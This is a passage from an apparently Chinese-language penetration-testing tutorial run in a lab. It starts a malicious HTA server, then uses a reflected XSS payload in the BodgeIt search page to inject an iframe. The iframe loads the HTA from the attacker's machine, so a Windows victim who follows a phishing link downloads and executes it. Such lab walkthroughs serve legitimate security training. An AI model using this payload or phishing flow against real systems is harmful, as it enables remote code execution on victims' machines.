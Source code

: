 ![](img/14d5ed1b-11be-4b98-bc7b-c1f9c5b490d8.png)

1.  现在，运行攻击并等待客户端连接：

```
run
```

![](img/361113ad-f065-4230-9b9f-d15c607dc342.png)

服务器启动时请注意提供的信息。本地 IP 值告诉我们如何访问恶意的 HTA 文件，其文件名是随机字符串并附带扩展名 `.hta`（本例中为 `k0Pjsl1tz2cI3Mm.hta`）。

1.  现在，前往我们的客户端 Windows 虚拟机，并打开 Internet Explorer。

1.  假设攻击者发送了一封包含链接到 `http://192.168.56.11/bodgeit/search.jsp?q=t<iframe src="http://192.168.56.10:8888/k0Pjsl1tz2cI3Mm.hta"></iframe>` 的钓鱼邮件给受害者。在 Internet Explorer 中打开该链接。

1.  如果电子邮件中的假设和 XSS 攻击成功，用户将接受警告并下载并执行文件。在 IE 中接受文件的下载：

